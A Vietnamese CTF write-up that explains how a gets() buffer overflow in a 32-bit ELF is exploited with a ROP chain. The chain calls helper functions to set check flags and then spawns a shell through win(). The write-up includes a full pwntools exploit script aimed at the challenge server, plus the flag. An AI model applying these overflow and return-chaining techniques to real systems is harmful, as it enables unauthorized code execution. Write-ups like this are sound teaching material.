









# **Stack Architecture - PWN CTF Challenge**

### ***Exploitation***
---

Đầu tiên ta kiểm tra được đây là file ELF 32-bit, và chỉ bật cờ `NX` &rarr; Ta không thể chèn shellcode nhưng có thể buffer overflow. Chạy thử chương trình không có gì đặc biệt khi nó cho nhập input xong rồi thoát.



Kiểm tra hàm main bằng IDA, có thể thấy hàm `gets(s)` đã gây ra lỗi buffer overflow. Mảng kí tự `s` nhập vào được khai báo 80 kí tự nằm ở vị trí `ebp - 0x54`.



Chương trình này khá đơn giản nên mình có thể xác định được số bytes cần input để chèn return address là 80 bytes (buffer `s`) + 4 bytes (`ebp`) + 4 bytes (`return address`). 

Đọc hàm `win` thì để gọi được shell bằng `system(command)` với `command= *]di*nc + 5 = /bin/sh` thì 3 biến `check2 == check3  == check4 == 1`. Như vậy chúng ta không thể return ngay về hàm win mà phải đi tìm các hàm làm thay đổi giá trị `check2`, `check3` và `check4`.



Đầu tiên là hàm `func1(int)`, tại đây xuất hiện biến `check2` và `check3`. Mảng kí tự s1[80] bằng `I\'m sorry, don\'t leave me, I want you here with me ~~` thì `check2=1`. Và để `check3=1` thì cần gọi `func1(int)` 2 lần với tham số đầu vào `int a1` phải bằng `0x20010508` (do phải set `check2=1` trước).  



Ở hàm `func2()`, để `check4=1` thì cần `check3==1` và có biến local `v1` nằm ở `ebp-0x4` trong stack frame bằng `0x8052001`. 



Như vậy sau khi gọi hàm `func1()` 2 lần và `func2()` ta sẽ thỏa mãn điều kiện ở hàm `win()` và gọi được shell. Vấn đề bây giờ là xây dựng stack để chèn được các tham số cũng như biến local thỏa những điều kiện trên.

Vì hàm `func1()` sẽ được gọi sau hàm `main()` nên `ebp(func1) = ebp + 0x4` &rarr; `s1 = I\'m sorry, don\'t leave me, I want you here with me ~~` sẽ nằm tại `ebp(func1) - 0x54 = ebp - 0x50`. Hơn nữa ở đây người ta dùng `strcmp()` để so sánh nên cần thêm một kí tự `\x00` vào chuỗi `s1`.

Tại `ebp+0x4` và `ebp+0x8` sẽ là địa chỉ của `func1()` (gọi 2 lần). Tại `ebp+0xc` (chính là arg cho func1() lần 1) sẽ là `pop; ret` để tránh nó return về arg &rarr; lỗi chương trình. Ở đây ta sẽ dùng `pop ebp; ret`. Tại `ebp + 0x10` (chính là arg cho func1() lần 1) sẽ là `0x20010508`.

Tiếp theo ta sẽ phải gọi 2 lần `func2()` vì với hàm `func2() lần 1` nếu lấy `v1` ở `ebp - 0x4` lúc đó sẽ trùng với arg của `func1() lần 2`. Mặt khác giá trị tại `ebp` luôn giữ nguyên sau lệnh `ret` nên sau khi qua `func2() lần 1`, `v1` ở `ebp - 0x4` lúc này sẽ là `ebp gốc` (ebp của hàm `main` ban đầu) &rarr; gán `ebp gốc` bằng `0x08052001`. Việc đơn giản còn lại là chèn địa chỉ của hàm `win` tại vị trí tiếp theo.

Ta có stack như sau:



Từ đó thực hiện đi tìm các address cần thiết cho mã khai thác.





Cuối cùng ta có đoạn mã sau tại [stack.py](stack.py)

```js
from pwn import *

r = remote('45.122.249.68', 10018)

func1 = 0x804929e
func1_argv = 0x20010508

func2 = 0x80492fe
func2_var = 0x08052001

win = 0x8049216
pop_ret = 0x08049022


payload = b'a'*4 + b'I\'m sorry, don\'t leave me, I want you here with me ~~' + b'\x00' + b'a'*26
payload += p32(func2_var)
payload += p32(func1)*2
payload += p32(pop_ret)
payload += p32(func1_argv)
payload += p32(func2)*2
payload += p32(win)

r.sendline(payload)
r.interactive()
```
Thực thi và ta đã có flag!!!!!!!!!!!!!!



> **FLAG: Wanna.One{neu_ban_chinh_phuc_duoc_chinh_minh_ban_co_the_chinh_phuc_duoc_the_gioi}**


